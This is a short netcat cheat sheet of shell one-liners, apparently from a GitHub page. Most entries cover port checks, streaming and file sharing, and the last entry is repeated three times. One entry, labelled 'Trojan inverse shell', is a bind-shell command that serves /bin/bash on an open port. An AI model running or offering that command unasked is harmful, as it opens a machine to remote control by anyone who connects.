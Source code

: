 ### Simplest web server ever!
```sh
nc -k -l 5432 -c 'echo My Web Server is Alive'
```

### Check if TCP port 25 is open
```sh
nc -zv localhost 25
```

### nc check udp port
```sh
nc -vz -u 8.8.8.8 53
```

### mp3 streaming
```sh
nc -l -p 2000 < song.mp3
```

### Stream and copy a video from lan
```sh
nc HOST PORT | tee movie.mp4 | mplayer -
```

### Trojan inverse shell
```sh
nc -l -p 2000 -e /bin/bash
```

### determine if tcp port is open
```sh
nc -zw2 www.example.com 80 && echo open
```

### Complete TCP Handshake on a given host-port
```sh
nc -zvw 1 host port
```

### Sharing file through http 80 port
```sh
nc -v -l 80 < file.ext
```

### Sharing file through http 80 port
```sh
nc -v -l 80 < file.ext
```

### Sharing file through http 80 port
```sh
nc -v -l 80 < file.ext
```
